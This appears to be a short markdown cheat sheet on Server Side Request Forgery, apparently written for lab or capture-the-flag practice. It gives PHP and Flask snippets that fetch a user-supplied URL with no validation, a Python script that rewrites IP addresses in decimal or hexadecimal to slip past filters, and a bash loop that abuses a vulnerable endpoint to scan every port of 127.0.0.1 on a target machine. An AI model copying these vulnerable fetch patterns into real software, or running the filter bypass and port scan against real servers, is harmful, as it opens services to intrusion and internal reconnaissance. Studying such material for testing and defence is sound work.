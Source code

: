 ## Server Side Request Forgery
https://portswigger.net/web-security/ssrf

Cause no input sanitation 

php example
```php
<?php

if (isset($_GET['url']))

{
  $url = $_GET['url'];
  $image = fopen($url, 'rb');
  header("Content-Type: image/png");
  fpassthru($image);

}
?>
```

python example 
```py
from flask import Flask, request,  render_template, redirect
import requests


app = Flask(__name__)


@app.route("/")
def start():
    url = request.args.get("id")
    r = requests.head(url, timeout=2.000)
    return render_template("index.html", result = r.content)

if __name__ == "__main__":
      app.run(host = '0.0.0.0')
```      
      
Payloads

python script to convert ip to D or H


You can run this in the following format:
For decimal:`python3 ip2dh.py D <Ip-address>`
For Hexadecimal: `python3 ip2dh.py H <Ip-address>`


```py
#!/usr/bin/python3

import sys

if len(sys.argv) < 3:
    print('\nYou must give desired format and IPv4 address as input...')
    print('e.g.: D 192.168.10.100')
    print('Valid formats D=Decimal H=Hexadecimal\n')
    sys.exit(1)

Format = sys.argv[1]

def long(ip):
   IP = ip.split('.')
   IP = list(map(int, IP))
   LongIP = IP[0]*2**24 + IP[1]*2**16 + IP[2]*2**8 + IP[3]
   return LongIP

ip = long(sys.argv[2])

if Format == 'D':
   print('\nIP as Decimal format: %s' % (ip))

if Format == 'H':
   print('\nIP as Hexadecimal format: %s' % (hex(ip)))
```
      
bash script to scan ports

```bash
for x in {1..65535};
  do cmd=$(curl -so /dev/null http://10.10.227.253:8000/attack?url=http://2130706433:${x} \
	-w '%{size_download}');
  if [ $cmd != 1045 ]; then
	echo "Open port: $x"
  fi
done

```


